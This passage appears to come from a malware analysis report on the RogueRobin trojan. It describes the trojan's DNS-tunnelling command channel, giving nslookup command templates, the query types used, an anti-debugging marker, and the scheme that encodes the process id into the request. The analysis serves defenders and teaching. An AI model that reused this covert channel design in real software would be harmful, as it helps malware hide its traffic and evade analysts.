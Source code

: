 ```
normal request:       nslookup.exe -q={DNS_quest_type} {id}.{domain_name}
ac mode is enables:   nslookup.exe -timeout=5 -q={DNS_quest_type} {id}.ac.{domain_name}
debugger is attached: nslookup.exe -timeout=5 -q={DNS_quest_type} 676f6f646c75636b.ac.{domain_name}
```

Interestingly enough, if we decode `676f6f646c75636b` (the value added if a debugger is attached), we get the value `goodluck`, the malware author is trying to be funny with the analyst :)

Here is the possible DNS query types used by the malware:

```
DNS query types:
    MX
    TXT
    A
    AAAA
```

The request `id` is generated by calling `GetCurrentProcess()` then transforming the process id to a string with these replacements:

```
0 --> h
1 --> i
2 --> j
3 --> k
4 --> l
5 --> m
6 --> n
7 --> o
8 --> p
9 --> q
```

In this case, the process id was `3206` which translates to `kjnh`, the id is prefixed with the `request_type` which is either `a,b,c or d` and the `comm_model` is appended to the end of the id which is just the letter 'c'.

Example of the connections:

[![6](/assets/images/malware-reports/roguerobin-trojan/6.png)](/assets/images/malware-reports/roguerobin-trojan/6.png)
